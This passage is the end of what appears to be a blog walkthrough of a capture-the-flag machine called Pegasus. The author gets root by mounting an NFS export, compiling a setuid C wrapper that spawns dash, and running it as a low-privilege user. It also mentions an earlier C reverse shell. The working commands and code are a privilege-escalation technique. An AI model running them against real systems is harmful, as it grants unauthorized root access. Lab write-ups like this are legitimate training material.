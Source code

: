 
so.....yeah


>john@pegasus:~$ sudo /usr/local/sbin/nfs start
 * Exporting directories for NFS kernel daemon...                         [ OK ] 
 * Starting NFS kernel daemon                                             [ OK ]


I went back to my Kali box and mounted the NFS. I created a file that would elevate my permissions to root and execute dash


>root@Tesla:~# cd /mnt
root@Tesla:/mnt# mkdir nfs
root@Tesla:/mnt# mount 192.168.7.138:/opt/nfs nfs
root@Tesla:/mnt# cd nfs
root@Tesla:/mnt/nfs# cat file.c
#include 
#include 
int main(int argc, char *argv[]){
 setreuid(geteuid(), geteuid());
 setregid(geteuid(), geteuid());
 execv("/bin/dash", argv);
 return 0;
}
root@Tesla:/mnt/nfs# gcc -o root file.c -m32
root@Tesla:/mnt/nfs# chmod 4777 root


......And back to john


>john@pegasus:/opt/nfs$ ./root
# id
uid=0(root) gid=0(root) groups=0(root),1000(john)
# cd /root
# ls
flag
# cat flag



[![peg15](https://trickster0.files.wordpress.com/2015/11/peg15.png)](https://trickster0.files.wordpress.com/2015/11/peg15.png)
Hallelujah!! It was kinda hard since i hated format strings but anyway it was fun. thx to everyone + some bonus below

This is the code that executed my C reverse shell from the codereview.php and also stopped it(mixed feelings on this one)

